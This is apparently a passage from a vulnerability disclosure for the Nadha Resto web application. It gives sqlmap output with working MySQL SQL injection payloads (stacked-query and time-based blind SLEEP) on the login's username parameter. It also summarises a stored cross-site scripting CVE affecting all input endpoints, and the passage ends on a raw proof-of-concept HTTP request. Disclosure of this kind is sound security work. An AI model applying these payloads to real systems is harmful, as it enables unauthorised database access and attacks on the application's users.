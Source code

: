 ```
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: username=admin';SELECT SLEEP(5)#&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 5140 FROM (SELECT(SLEEP(5)))CFPw) AND 'JaXH'='JaXH&password=admin
---
[03:06:11] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.4, Apache 2.4.56
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
...................
```

![Nadha Resto SQL Injection](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhAhWjJEuF2uAwAzbYBQX25OkW_sas6KfIaIDs2mTFlZSrrTpflEGjpdZOukV-n9elxXjV_zWdRG48KIRWmJNkkmcP-Xf4LcG0z1kY2ZompmRbTBHQIE1xPHpuyjoqACI4sDoD8Xf0_FMkWKlVj_O92w_K2gJeosOoko5GN9N89S-C_nux6g_cRePvC5Am3/s991/)

## Cross-site Scripting at Several Endpoint

Vulnerability Summary:

| Parameter   | Value |
| ------------| ------------|
| CVE-ID | CVE-2023-51976 |
| Classification | Cross-site scripting |
| Description | Multiple Cross-site Scripting vulnerabilities have been discovered in Nadha Resto Application |
| Required privilege | Low |
| Affected Version | 3.2.0 (#0~fed9afe) |
| Publicly disclosed | 21.12.2023 |

We have discovered Cross-site Scripting vulnerabilities **in all endpoints** that require user input. The following are examples of such endpoints:

- POST /Nadha-Resto/mitra/tambahMitra
- POST /Nadha-Resto/pengeluaran/prosesPengeluaran
- POST /Nadha-Resto/manajemenUser/updateUserProses
- etc

> Note: All parameter on affected endpoint is vulnerable to Cross-site Scripting.

This is an example of a Stored XSS vulnerability that can be exploited by a user with the Kitchen role, which is a **low-level user** in the application.

```bash
POST /research/Nadha-Resto/menu/prosesTambahMenu HTTP/1.1
Host: localhost
Content-Length: 6491
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryiunF6DNyNTxtO15Q
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/research/Nadha-Resto/dasbor
Accept-Encoding: gzip, deflate, br
```